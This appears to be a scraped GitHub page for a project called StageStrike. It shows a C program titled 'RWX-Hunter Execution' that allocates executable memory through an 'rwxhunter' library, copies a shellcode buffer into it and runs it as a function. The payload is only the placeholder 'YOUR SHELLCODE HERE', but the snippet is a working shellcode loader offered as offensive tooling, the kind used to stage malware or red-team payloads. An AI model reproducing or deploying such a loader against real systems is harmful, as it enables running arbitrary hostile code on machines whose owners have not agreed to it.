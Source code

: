 https://github.com/RedXRanger/StageStrike

### RWX-Hunter Execution

```
#include <Windows.h>
#include <stdio.h>
#include <stdint.h>
#include <assert.h>

#define RWXHUNTER_IMPL
#include "rwxhunter.h"

int main(int argc, char** argv) {
    uint8_t shellcode[] = "YOUR SHELLCODE HERE";

    // Initialize RWX-Hunter
    int rwxh_result = rwxh_init();
    assert(rwxh_result == RWXH_OK);

    // Find executable memory page
    void* exec_mem = rwxh_alloc_exec(sizeof(shellcode));
    assert(exec_mem != NULL);

    // Copy shellcode to executable memory page
    memcpy(exec_mem, shellcode, sizeof(shellcode));

    // Set memory page as executable
    rwxh_set_exec(exec_mem, sizeof(shellcode));

    // Cast executable memory to function pointer and execute shellcode
    int (*shellcode_func)() = (int(*)())exec_mem;
    shellcode_func();

    // Free executable memory page
    rwxh_free_exec(exec_mem);

    return 0;
}

```

https://github.com/RedXRanger/StageStrike
